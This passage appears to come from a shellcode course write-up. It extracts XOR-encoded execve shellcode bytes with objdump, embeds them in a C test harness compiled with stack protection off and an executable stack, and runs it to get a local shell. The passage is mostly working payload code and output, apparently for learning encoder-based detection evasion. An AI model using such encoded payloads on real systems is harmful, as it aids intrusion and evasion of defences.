 ```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ objdump -d ./xor-decoder-marker | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\xeb\x0c\x5e\x80\x2e\x01\x80\x36\xaa\x74\x08\x46\xeb\xf5\xe8\xef\xff\xff\xff\x9c\x6b\xfb\xc3\x86\x86\xda\xc3\xc3\x86\xc9\xc4\xc5\x24\x4a\xfb\x24\x49\xfa\x24\x4c\x1b\xa2\x68\x2b\xab"
```

After that, we modify the `C` program with the shellcode from `objdump`, which was provided in the course materials and checks if a shellcode is working.

The whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0c\x5e\x80\x2e\x01\x80\x36\xaa\x74\x08\x46\xeb\xf5\xe8\xef\xff\xff\xff\x9c\x6b\xfb\xc3\x86\x86\xda\xc3\xc3\x86\xc9\xc4\xc5\x24\x4a\xfb\x24\x49\xfa\x24\x4c\x1b\xa2\x68\x2b\xab";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

We test it by just executing `shellcode`.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ ./shellcode 
Shellcode Length:  45
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
compile.sh    execve-stack.nasm  shellcode    xor-add-encoder.py  xor-decoder-marker.nasm
execve-stack  execve-stack.o	 shellcode.c  xor-decoder-marker  xor-decoder-marker.o
$ exit
```

## Summary
